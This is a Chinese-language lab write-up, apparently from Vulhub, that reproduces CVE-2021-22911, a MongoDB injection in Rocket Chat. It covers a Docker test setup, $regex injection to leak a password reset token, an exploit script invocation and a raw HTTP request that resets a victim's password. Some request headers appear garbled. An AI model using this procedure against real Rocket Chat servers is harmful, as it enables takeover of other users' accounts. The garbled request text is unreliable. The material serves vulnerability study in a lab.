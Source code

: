 # Rocket Chat MongoDB 注入漏洞 CVE-2021-22911
## 漏洞描述
Rocket Chat是一款基于Node.js、MongoDB的开源团队聊天工具。在其3.12.1~3.13.2版本中，存在一处MongoDB注入漏洞，利用这个漏洞，攻击者可以获取用户敏感信息，甚至在服务器上执行任意命令。

这个漏洞有两种攻击方式：

未授权攻击者可以利用这个漏洞，获取任意普通用户的Password Reset Token，并通过这个Token修改其密码
普通用户可以利用这个漏洞，获取任意用户的任意信息

环境搭建
Vulhub执行如下命令启动一个Rocket Chat 3.12.1：

docker-compose up -d
环境启动后，访问http://your-ip:3000即可查看到Rocket Chat的安装向导，跟随向导进行安装即可。

安装完成后，为了验证第一个攻击方法，我们需要在后台增加一个普通用户，用户名为vulhub，邮箱为vulhub@vulhub.org。

## 漏洞复现
我们只来复现第一种利用方式。复现这个漏洞需要三步：

通过邮箱找回密码，后台会在数据库中会生成Password Reset Token
利用MongoDB注入，获取这个Password Reset Token
使用Password Reset Token来更改这个用户的密码
其中，我们使用$regex语句进行MongoDB注入，当$regex: ^7时，不匹配，返回一个错误信息：
当$regex: ^8时能够匹配，返回正确信息：
将注入的过程通过[CVE-2021-22911.py](https://github.com/vulhub/vulhub/blob/master/rocketchat/CVE-2021-22911/CVE-2021-22911.py)这个小脚本进行实现，自动化获取Password Reset Token：
python CVE-2021-22911.py http://<ip:port> vulhub@vulhub.org
使用Password Reset Token修改用户密码成功：
```
POST /api/v1/method.callAnon/resetPasswordHTTP/1.1
Host:192.168，1.162:3000
Accept-Encoding: gzip,deflate
Accept:*/*
Accept-tanquage:enUser-Agent:Nozilla/5,0(windowswm 10.0;win64;x64)Applewebkit/537.36(KHTL, like Gecko)Chrome/87.0.4280.88safari/537.36
Connection:close
Content-ype: application/json
Content-length:143
{"message": "{\"msg\":\"method\",\"method\":\"resetPassword\",\"params\":[\"8tnbuIcigNEolloKXveugRfpK2Mzc5yisq517\",\"evilpassword\"]}"}
```